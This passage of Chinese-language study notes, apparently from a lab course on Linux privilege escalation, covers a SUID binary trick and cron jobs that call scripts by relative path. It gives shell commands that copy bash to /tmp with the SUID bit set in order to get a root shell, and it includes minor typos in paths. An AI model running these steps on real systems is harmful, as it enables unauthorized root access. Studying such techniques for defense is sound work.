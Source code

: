 ##### chmod u+s shell，./shell执行触发demo.c里面的ps命令

视频中是能够提权的，本地的虚拟机环境，没有成功

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-4.png)

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-3.png)



## Linux 提权本地定时任务安全-Aliyun

### 案例 2-Linux 提权本地定时任务安全-Aliyun

#### 第一种：路径问题

##### 原理

- 利用计划任务指向的文件的相对路径解析问题

```shell
cat /ect/crontab
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/xiaodi/test.sh
chmod +x /home/xiaodi/test.sh
/tmp/bash
```

##### 执行cat /etc/crontab命令

查看当前系统的定时任务，发现一个test.sh任务没有写绝对路径，而且是以root权限运行的。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-5.png)

定时任务中的test.sh没有写绝对路径，但我们知道它默认就是调用/usr/local/bin目录下test.sh。（我们自己写来测试用的)

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-6.png)

打开看一下，发现此定时任务是每隔一分钟将系统日期写入/tmp/time.log。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-7.png)

等1分钟，发现确实/tmp目录下生成了time.log，内容是当前时间。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-8.png)



​	那我们该如何利用这个定时任务提权呢？方法就是在用户目录下写入一个与test.sh同名的文件，执行，此时定时任务以root身份调用的就是我们写的 /home/xiaodi/test.sh，而不是系统原来的/usr/local/bin/test.sh，从而提权。但是测试发现并没有提权成功。

```shell
echo 'cp bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/xiaodi/test.sh
chmod +x /home/xiaodi/test.sh
/tmp/bash
```
